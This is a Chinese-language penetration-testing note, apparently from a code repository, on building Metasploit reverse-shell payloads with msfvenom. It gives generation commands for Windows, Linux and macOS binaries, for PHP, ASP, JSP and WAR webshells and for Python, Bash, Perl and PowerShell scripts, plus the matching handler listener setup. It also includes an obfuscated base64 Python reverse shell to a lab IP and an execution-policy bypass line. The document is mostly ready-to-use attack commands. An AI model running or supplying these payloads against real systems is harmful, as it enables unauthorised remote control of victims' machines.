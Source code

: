 ## 生成适用于`msf`的`payload`以及利用

主要记录一下常用的`payload`以及如何使用。

生成`payload`使用的工具是`MSFVenom`

在`kali`下可以使用如下命令列出`MSFVenom`可以生成的`payload`列表：

`msfvenom -l`



-----
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。


```
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

如何利用
针对这个部分就以`Windows`为例，使用上面的命令生成一个`exe`的`payload`

命令如下：

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f exe > shell.exe`

 
-----

 
复制`shell.exe`到`Windows`机器，然后`kali`下开启`msf`使用如下命令监听`4444`端口：

```
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
执行完之后在Windows下执行`shell.exe`，然后等结果

-----
 
在这里既然使用到了在Windows下执行应用程序，我们就大概盘点一下在Windows执行应用程序的几种方式：

双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
生成webshell脚本
在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成一个可以用msf操作的webshell呢？

- PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

 
- ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

- JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

- WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

------
## 利用

下面以php为例做一下测试，使用以下命令生成一个webshell：

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php`

 
在kali上使用msf执行下面的命令，监听端口4444：
```
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z

```
将`shell.php` 放在`web`目录下，使用 **浏览器访问**，或者使用以下命令执行：

`php shell.php`

------- 

## 脚本`shell`

关于使用脚本反弹`shell`的方式，主要以`python`、`bash`、`perl`为例。

- Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

- Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

- Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

- Powershell
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1`

`powershell.exe -ExecutionPolicy Bypass -File shell.ps1`

----
## 使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：

`msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py`

 
在kali上使用msf执行下面的命令，监听端口4444：

```
msfconsole

use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
然后复制`shell.py`中的内容在linux命令行下执行，如下：
```
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```
 



## 总结
`msfvenom`生成常用的反向连接的`shell`，`msfvenom`可以生成的`shell`很多